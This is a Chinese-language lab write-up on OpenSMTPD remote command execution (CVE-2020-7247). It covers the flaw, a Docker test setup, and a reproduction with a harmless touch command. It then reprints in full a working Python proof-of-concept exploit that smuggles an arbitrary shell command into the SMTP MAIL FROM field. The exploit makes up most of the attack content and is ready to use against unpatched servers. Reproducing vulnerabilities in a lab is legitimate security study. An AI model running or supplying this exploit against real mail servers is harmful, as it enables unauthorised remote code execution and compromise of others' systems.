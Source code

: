 # OpenSMTPD 远程命令执行漏洞 CVE-2020-7247

## 漏洞描述

OpenSMTPD 是面向 unix 操作系统 (BSD, MacOS, GNU/Linux) 的一个 smtp 服务程序，遵循 RFC 5321 SMTP 协议，OpenSMTPD 最初是为 OpenBSD 操作系统开发的，是 OpenBSD 项目的一部分，由于其开源的特性，进而分发到了其他 unix 平台。根据 ISC 许可，该软件可免费供所有人使用和重用。

`CVE-2020-7247` 是 OpenSMTPD 在实现 RFC 5321 的过程中对 发件人/收件人 校验不严而导致的。

2020年01月29日，OpenSMTPD 官方在 github 代码仓库提交了针对 `CVE-2020-7247` 漏洞的修复，修复后对应版本为`OpenSMTPD 6.6.2p1`。

参考链接：

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689

## 环境搭建

Vulhub执行如下命令，启动OpenSMTPD服务：

```
docker-compose up -d
```

执行完成后，使用`nc <your-ip> 8825 -v` 后应看到如下回显：（`44dadcc5a6eb`为容器编号）：

![image-20220228134850834](images/202202281348887.png)

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

## 漏洞复现

使用[Exploit-DB](https://www.exploit-db.com/exploits/47984)上的POC进行复现：

```
python3 poc.py your-ip 8825 <command> 
```

执行命令`touch /tmp/awesome_poc`：

![image-20220228141109898](images/202202281411957.png)

命令执行成功：

![image-20220228141157540](images/202202281411586.png)

## 漏洞POC

```python
# Exploit Title: OpenSMTPD 6.6.1 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
# 
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```

